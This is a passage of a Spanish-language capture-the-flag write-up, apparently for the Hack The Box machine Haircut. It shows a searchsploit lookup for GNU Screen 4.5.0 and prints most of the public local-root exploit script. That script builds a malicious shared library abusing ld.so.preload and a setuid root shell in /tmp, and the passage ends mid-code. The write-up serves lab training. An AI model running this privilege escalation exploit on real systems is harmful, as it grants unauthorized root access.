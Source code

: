 Tenemos el binario `screen-4.5.0`, así que vamos a buscar un posible exploit público asociado:

```bash
❯ searchsploit screen 4.5.0
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                  | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                            | linux/local/41152.txt
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Vemos dos recursos, un script en bash y otro una prueba de concepto (PoC). Para este caso utilizaremos el script; sin embargo, no vamos a ejecutarlo en la máquina víctima, vamos a ver que hace primeramente:

```bash
❯ searchsploit -m linux/local/41154.sh
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators

Copied to: /home/k4miyo/Documentos/HTB/Haircut/exploits/41154.sh


❯ mv 41154.sh screen_privesc.sh
❯ catn screen_privesc.sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
```